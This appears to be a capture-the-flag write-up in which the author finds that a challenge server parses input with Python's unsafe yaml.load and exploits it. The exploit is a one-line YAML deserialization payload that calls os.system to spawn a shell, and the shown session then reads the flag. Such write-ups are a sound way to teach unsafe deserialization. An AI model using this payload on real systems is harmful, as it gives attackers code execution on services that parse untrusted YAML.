 
# Bet3
This time we're introduced with a slightly different server. When typing most stuff into netcat, the server responds with dots? Seems like we're constructing some sort of long syntax. After playing with it for a minute or two, I tried to reply to the server with dots as well:

    root@beer:~/crypto# nc ctf.safebreach.com 31339
	...
	...
	 while parsing a block node
	expected the node content, but found '<document end>'
	  in "<unicode string>", line 1, column 1:

Huh? That's a strange error. Seems like our server is parsing some sort of document. The error seemed Pythonic but I could not recognize it. Naturally I googled the error and figured out it was actually the `yaml` python module.

For those who are not familiar with the module, it's a module for parsing YAML syntax. There are two primary functions in that module for parsing YAML syntax: `load` and `safe_load`. This was obviously just `load`, and we needed to achieve code execution by sending malicious YAML syntax.

Upon reading on the issue online, I came across [this page](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load%28input%29-Deprecation) which explains it pretty nicely, and provides a small POC which we can use to solve this challenge:

    root@beer:~/crypto# nc ctf.safebreach.com 31339
	!!python/object/new:os.system [/bin/sh]
	 /bin/sh: can't access tty; job control turned off
	/pwn $ cat flag
	CTF{4ab256a740b1001a8pf387d7d668bf45}

